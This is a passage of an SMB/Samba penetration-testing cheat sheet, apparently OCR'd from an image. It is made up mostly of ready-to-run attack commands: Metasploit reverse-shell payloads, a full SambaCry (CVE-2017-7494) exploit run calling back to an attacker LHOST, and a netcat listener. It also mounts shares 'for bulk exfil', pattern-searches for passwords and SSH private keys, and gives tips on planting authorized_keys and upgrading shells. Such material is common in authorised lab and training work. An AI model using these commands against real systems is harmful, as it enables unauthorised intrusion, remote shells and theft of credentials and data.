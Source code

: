 ```
set PAYLOAD cmd/unix/reverse
# or
set PAYLOAD cmd/unix/reverse_netcat
```

12) Metasploit: SambaCry CVE-2017-7494 (if indicated and share is writable)
- This requires conditions (e.g., ability to write a shared library to a writable share). If an NSE or banner suggests vulnerability:
```
msfconsole -q
use exploit/linux/samba/is_known_pipename
set RHOSTS $TARGET
set RPORT 445
set LHOST LHOST
set LPORT LPORT
run
# Verify:
id
```

13) Mount a share locally (handy for bulk exfil)
```
sudo mkdir -p /mnt/smb
# For older Samba (SMB1):
sudo mount -t cifs //${TARGET}/SHARE /mnt/smb -o guest,vers=1.0
# With creds:
sudo mount -t cifs //${TARGET}/SHARE /mnt/smb -o username=user,password='password',vers=1.0
ls -la /mnt/smb
sudo umount /mnt/smb
```

14) Netcat listener for manual reverses (when triggering custom commands)
```
nc -lvnp 4444
```

## Practical tips
- Force SMB dialect: many vulnerable Samba builds only speak SMB1; use smbclient -m NT1 or mount vers=1.0 if connections fail.
- Null sessions first: anonymous access often yields share lists and sometimes readable/writable shares.
- Recursive grab: inside smbclient, use recurse ON and prompt OFF to bulk-download.
- Use pattern matching: smbmap -A 'pass|config|id_rsa' to quickly find sensitive files.
- Writable ≠ executable: uploading to a share doesn’t execute code by itself; look for shares mapped to web roots or places you can leverage (authorized_keys in home, cron- or script-executed paths).
- Version matters: small version differences in Samba change exploitability. Always confirm the exact version and check searchsploit/metasploit.
- Firewalls/SMB signing: if tools time out or fail, check for SMB signing or firewall rules; try both 139 and 445.
- Stabilize shells: upgrade to a TTY after getting a shell (e.g., python3 -c 'import pty; pty.spawn("/bin/bash")').

## Minimal cheat sheet (one-screen flow)
```
# Scan + enumerate SMB
TARGET=10.10.10.10
nmap -p139,445 -sC -sV $TARGET
nmap -p139,445 --script smb-os-discovery,smb-enum-shares,smb-enum-users $TARGET

# List shares (anonymous)
smbclient -L //$TARGET/ -N -m NT1
# Connect to share
smbclient //$TARGET/SHARE -N -m NT1 -c 'recurse ON;prompt OFF;ls'
smbclient //$TARGET/SHARE -N -m NT1 -c 'mget *'
```